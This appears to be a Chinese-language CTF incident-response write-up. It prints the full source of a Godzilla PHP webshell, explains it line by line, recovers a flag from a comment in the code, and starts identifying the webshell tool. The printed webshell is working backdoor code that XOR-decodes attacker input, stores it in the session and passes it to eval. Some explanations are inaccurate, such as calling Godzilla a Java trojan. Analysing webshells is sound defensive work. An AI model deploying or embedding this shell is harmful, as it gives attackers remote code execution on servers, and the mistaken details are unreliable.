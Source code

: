 ```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
简单分析一下这段恶意代码；
1. `@session_start();`：启动会话
2. `@set_time_limit(0);`：设置脚本执行时间限制为无限制
3. `@error_reporting(0);`：关闭错误报告
4. `function encode($D,$K){...}`：定义了一个名为 `encode` 的函数，它接受两个参数 `$D` 和 `$K`。这个函数看起来像是一个简单的异或编码函数，用于对数据进行加密或解密。它使用 `$K` 作为密钥，对 `$D` 中的每个字符进行异或操作。
5. 接下来的几行代码定义了 `$payloadName`、`$key` 和 `$data` 变量。`$payloadName` 是用于存储有效载荷的会话变量名，`$key` 是用于编码的密钥，`$data` 是从 `php://input` 流中读取的数据。
6. `if ($data!==false){...}`：如果从 `php://input` 读取的数据不是 `false`（即成功读取了数据），则执行以下代码块。
7. `if (isset($_SESSION[$payloadName])){...}`：检查 `$payloadName` 对应的会话变量是否已设置。
8. `if (strpos($payload,"getBasicsInfo")===false){...}`：检查 `$payload` 变量中是否包含字符串 `"getBasicsInfo"`。
9. `eval($payload);`：如果 `$payload` 变量包含 `"getBasicsInfo"` 字符串，则执行 `$payload` 变量中的 PHP 代码。
10. `echo encode(@run($data),$key);`：如果 `$data` 包含 `"getBasicsInfo"` 字符串，则执行 `@run($data)` 函数，并将结果编码后输出。
**总结：**
```
这段代码的目的是接收通过 php://input 流发送的数据，对其进行编码，并根据会话变量中的内容执行特定的 PHP 代码。这通常用于隐藏恶意代码或后门，使得攻击者可以通过特定的请求触发执行。
```
最后找到flag；
```php
flag{027ccd04-5065-48b6-a32d-77c704a5e26d}
```
## 二、flag2
**黑客使用的什么工具的shell github地址的md5 flag{md5}**
遇到这种类型的题目，我们就是要分析一下是什么类型的webshell，其实开头三句就可以分析出是godzilla的webshell了；
为什么这样说？
哥斯拉病毒是一种Java后门木马，通常用于攻击并控制Web服务器。特征就包括：
```
1. @session_start(); - 开启一个会话。
2. @set_time_limit(0); - 设置脚本执行时间为无限。
3. @error_reporting(0); - 关闭所有错误报告。
```